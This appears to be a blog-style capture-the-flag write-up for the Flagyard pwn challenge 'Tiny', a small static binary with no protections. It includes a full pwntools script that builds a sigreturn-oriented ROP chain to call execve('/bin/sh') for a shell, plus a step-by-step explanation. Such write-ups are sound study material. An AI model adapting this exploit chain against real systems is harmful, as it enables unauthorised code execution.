 ```yaml
---
title: "Flagyard - Tiny"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
  - CTF
tags:
  - Hacking
  - Walkthrough
  - CTF
  - Flagyard
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Flagyard - Tiny
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Portal:|[Flagyard](https://flagyard.com/)|
|Task:|[Tiny](https://flagyard.com/labs/training-labs/13/challenges/3f614fb4-65b8-48a3-894a-3e918a6d182d)|
|Category:|PWN|

# 01. Description
## Introduction
This task comes from the challenge platform [Flagyard](https://flagyard.com/) and is marked as **easy**. However, the solution requires creative techniques and in-depth knowledge of exploitation concepts. While the binary is small and lacks traditional protections, the limited set of gadgets and syscall handling makes this challenge more intricate than it initially appears.
{: .text-justify}

## Binary Information

### **Checksec Results**
```plaintext
   Arch:       amd64-64-little
   RELRO:      No RELRO
   Stack:      No canary found
   NX:         NX unknown - GNU_STACK missing
   PIE:        No PIE (0x400000)
   Stack:      Executable
   RWX:        Has RWX segments
   Stripped:   No
```

### **LDD Results**
```plaintext
ldd ./tiny
        not a dynamic executable
```

### **Analysis**
- **No external libraries:** The binary is not dynamically linked; it does not use external shared libraries.
- **Built-in functions:** The binary contains internal implementations of `read`, `write`, and a `gadget` symbol. This indicates custom syscall handling.
- **No stack protections:** The binary lacks stack canaries, RELRO, and NX, making exploitation theoretically easier.
- **One useful gadget:** The only usable gadget is `pop rsi; ret`, significantly limiting the available ROP chain options.

---

## Time Spent on the Exploit
I spent several hours working on this solution. Despite the binary being named "tiny," it was far from simple. The challenge does not involve traditional buffer overflow vulnerabilities. Instead, you construct ROP chains directly while supplying data to the binary.
{: .text-justify}
Due to the lack of useful gadgets (with only `pop rsi` being helpful), the exploit heavily relies on `sigreturn` to gain full control over the registers. Crafting the right approach to manipulate syscalls and use a minimal set of gadgets required significant effort and debugging.
{: .text-justify}
---
## Solve in Python
```python
from pwn import *  # Include pwntools library

# Set up context for the exploit
context.update(arch='x86_64', os='linux')  # Set architecture and OS for pwntools
context.terminal = ['wt.exe', 'wsl.exe']   # Use Windows Terminal with WSL

# Load the binary
binary = context.binary = ELF("./tiny", checksec=False)

# Determine whether to connect locally or remotely
if args.REMOTE:
    p = remote('nc 34.252.33.37 32435'.split()[1], 32435)  # Remote connection
else:
    p = process(binary.path)  # Local process

# Gadgets and addresses
pop_rsi = binary.sym["gadget"]          # Resolve the symbol for the pop_rsi gadget
bss = 0x0000000000402008                # Address of the writable .bss section
read = 0x000000000040103c               # Modified read function to ignore unnecessary registers
syscall = 0x000000000040102d            # syscall gadget with ret

# Prepare the SigreturnFrame for sigreturn-oriented programming (SROP)
frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b            # Set rax to 59 for execve
frame.rdi = bss             # Set rdi to point to /bin/sh in .bss
frame.rsi = 0x0             # Set rsi to NULL (argv)
frame.rdx = 0x0             # Set rdx to NULL (envp)
frame.rip = syscall         # Set rip to the syscall gadget

# Build the ROP payload
# - Load the .bss address into rsi using pop_rsi
# - Call the read function to write "/bin/sh" into .bss
# - Prepare the sigreturn frame to set registers for execve
payload = (
    p64(pop_rsi) + p64(bss) + p64(read) +  # Load bss into rsi for the read syscall
    p64(syscall) + bytes(frame)           # Trigger the sigreturn syscall with the frame
)

p.sendafter(b"rop me:", payload)          # Send the payload
                                          # Includes:
                                          # - Loading bss into rsi
                                          # - Calling read to populate bss with "/bin/sh"
                                          # - Preparing the sigreturn frame to set registers

p.send(b"/bin/sh" + b"\x00" * 8)          # Send "/bin/sh" to bss and ensure rax = 15 for sigreturn
                                          # Creates the string "/bin/sh" and prepares for execve

p.interactive()                           # Switch to interactive mode to access the shell
```
## Explanation of How the Exploit Works

### **Binary Setup**
The binary lacks standard protections, which makes it theoretically exploitable. However, it compensates for this with very limited gadgets and built-in syscall handling, requiring a creative approach using Sigreturn-Oriented Programming (SROP).
{: .text-justify}
### **Step-by-Step Explanation**
1. **Dynamic Resolution of Gadgets:**
   - The `pop rsi` gadget is dynamically resolved using `binary.sym["gadget"]`. This makes the exploit more robust to changes in the binary.

2. **Writable Memory Section:**
   - The `.bss` section (address `0x402008`) is used as a writable location to store the `/bin/sh` string.

3. **Data Injection (`/bin/sh`):**
   - The string `/bin/sh` is sent in a separate line along with null bytes (`\\x00`). This operation writes `/bin/sh` to `.bss` and sets `rax = 15` (number of bytes read by the `read` syscall).

4. **ROP Chain Execution:**
   - The payload first loads `.bss` into `rsi` and calls `read`. After sending `/bin/sh`, execution "returns" to the main payload in `sendafter`. At this point:
   - A syscall is executed with `rax = 15`, triggering `sigreturn`.
   - The frame on the stack configures the registers for the final `execve` syscall.
![payload](/assets/images/hacking/2025/01/01.png)

5. **Executing the `execve` Syscall:**
   - The `execve` syscall is executed with the configured registers, launching an interactive shell.

### **Key Takeaways**
- This exploit demonstrates the power of SROP in a minimalistic binary with limited gadgets.
- By using the `sigreturn` syscall, full control over all registers is achieved, bypassing the limitations imposed by the binary's design.
- Despite its simplicity in appearance, this binary requires an advanced understanding of syscall behavior and ROP chains to exploit effectively.

## Summary
This was an interesting challenge. It taught me a new technique, patience, and the importance of not giving up. Despite its minimalistic design, the task required a deep understanding of system calls and exploitation strategies, making it a rewarding learning experience.
{: .text-justify}


